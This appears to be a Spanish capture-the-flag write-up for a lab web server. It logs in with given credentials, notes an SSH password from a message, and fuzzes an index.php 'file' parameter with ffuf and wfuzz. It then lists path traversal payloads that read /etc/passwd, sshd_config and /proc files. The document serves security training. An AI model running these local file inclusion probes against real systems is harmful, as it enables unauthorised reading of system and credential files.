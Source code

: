 Iniciamos session con las siguientes credenciales:
```bash
username: administrator
password: panther
```

Una ves logueados tenemos este mensaje:
```bash
## Darks, el sistema a sido configurado para restringir un rango de ip por seguridad, ten esto en cuenta ya que si no te encuentras en el segmento correcto nada funcionara, tus nuevas credenciales ssh son: darks:_dkvndsqwcdfef34445
```

Revisamos si existe algun parametro al que este llamando desde esta url:
```bash
http://172.17.0.2/sobre-mi/index.php
```

```bash
ffuf -u http://172.17.0.2/index.php\?FUZZ\=/etc/passwd -w /usr/share/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -fs 22274
```

Tenemos como resultado:
```bash
file                    [Status: 200, Size: 23613, Words: 6185, Lines: 475, Duration: 0ms]
```

Realizaremos fuzzing sobre esta ruta:
```bash
 wfuzz -c --hw 1365 -w /usr/share/SecLists/Fuzzing/LFI/LFI-Jhaddix.txt -u "http://172.17.0.2/index.php?file=FUZZ"
```

Resultado:
```bash
../../../../../../../../../../../../../../../../../../../etc/passwd"
../../../../../../../../../../../../../etc/passwd"                  
../../../../../etc/passwd"                                          
../../../../../../../../../../../../../../../../../etc/passwd"      
../../../etc/passwd"                                                
../../../../../../etc/passwd"                                       
../../../../etc/passwd"                                             
../../../../../../../etc/passwd"                                    
../../../../../../../../etc/passwd"                                 
../../../../../../../../../../etc/passwd"                           
../../../../../../../../../etc/passwd"                              
../../../../../../../../../../../etc/passwd"                        
../../../../../../../../../../../../../../etc/passwd"               
../../../../../../../../../../../../etc/passwd"                     
../../../../../../../../../../../../../../../etc/passwd"            
../../../../../../../../../../../../../../../../../../etc/passwd"   
../../../../../../../../../../../../../../../../etc/passwd"         
../../../../../../etc/passwd&=%3C%3C%3C%3C"                         
/etc/ssh/sshd_config"                                               
/etc/resolv.conf"                                                   
/etc/rpc"                                                           
/proc/partitions"                                                   
/proc/version"                                                      
/proc/self/status"                                                  
/proc/self/cmdline"                                                 
/proc/net/route"                                                    
/proc/net/tcp"                                                      
/proc/net/dev"                                                      
/proc/net/arp"                                                      
/proc/mounts"                                                       
/proc/meminfo"                                                      
/proc/loadavg"                                                      
/proc/cpuinfo"                                                      
```